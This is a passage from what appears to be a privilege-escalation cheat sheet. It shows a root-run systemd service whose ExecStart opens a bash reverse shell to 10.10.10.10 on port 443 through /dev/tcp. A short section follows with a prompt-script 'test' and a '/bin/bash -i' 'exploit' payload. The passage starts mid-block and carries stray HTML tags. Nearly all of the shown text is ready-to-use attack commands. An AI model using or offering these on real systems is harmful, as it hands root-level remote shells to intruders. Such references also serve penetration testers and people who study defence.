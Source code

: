     [Service]
    User=root
    Type=simple
    ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.10.10.10/443 0>&1'


    [Install]
    WantedBy=multi-user.target
    ```
    </pre>
  </div>
</div>

<br>

## Shell in input prompt
**Test**
```bash script.sh
#!/bin/bash
read -p "What's you name: "
```

**Exploit**
```bash payload
/bin/bash -i
```

<br>

---
---
